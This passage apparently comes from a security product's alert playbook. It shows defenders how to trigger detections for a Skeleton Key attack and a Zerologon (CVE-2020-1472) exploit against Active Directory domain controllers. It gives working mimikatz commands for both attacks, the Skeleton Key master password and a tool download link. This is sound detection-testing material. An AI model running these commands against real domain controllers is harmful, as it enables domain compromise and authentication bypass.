 For details about this alert, see [Suspected skeleton key attack (encryption downgrade) (external ID 2010)](domain-dominance-alerts.md#suspected-skeleton-key-attack-encryption-downgrade-external-id-2010).

Skeleton Key is malware that runs on domain controllers and allows authentication to the domain with any account without knowing its password. This malware often uses weaker encryption algorithms to hash the user's passwords on the domain controller.
  
It means the attacker can use the same password for any Active Directory accounts without the need to reset or change the original account's password.

In this alert, the learned behavior of previous KRB_ERR message encryption from the domain controller to the account requesting a ticket was downgraded.

> [!WARNING]
> Never run an untrusted tools on a production domain controller. Once the domain controller is impacted, there is no easy rollback, and the domain controller must be demoted.

From a command line on a workstation with a shell on a domain controller, run as a domain admin:

```cmd
mimikatz # privilege::debug 
mimikatz # misc::skeleton 
```

The master password should be *mimikatz*.

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspected skeleton key attack (encryption downgrade) alert details.](media/playbooks/skeleton-key-details.png)  

## Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation)

For details about this alert, see [Suspected Netlogon privilege elevation attempt (CVE-2020-1472 exploitation) (external ID 2411)](compromised-credentials-alerts.md#suspected-netlogon-privilege-elevation-attempt-cve-2020-1472-exploitation-external-id-2411).
  
The alert is triggered if an attacker attempts to establish a vulnerable Netlogon secure channel connection to a DC, using the Netlogon Remote Protocol (MS-NRPC), also known as Netlogon Elevation of Privilege Vulnerability.

From a command line on a workstation, run with a local admin account:

```cmd
mimikatz # privilege::debug 
mimikatz # lsadump::zerologon /server:msdemo-DC01.msdemo.local /account:msdemo-DC01$ /exploit  
```

Tools available from: <https://github.com/gentilkiwi/mimikatz/releases>  

Detail in the alert:  

![Suspected Netlogon privilege elevation attempt alert details.](media/playbooks/netlogon-privilege-elevation-details.png)  

## Suspicious network connection over Encrypting File System Remote Protocol
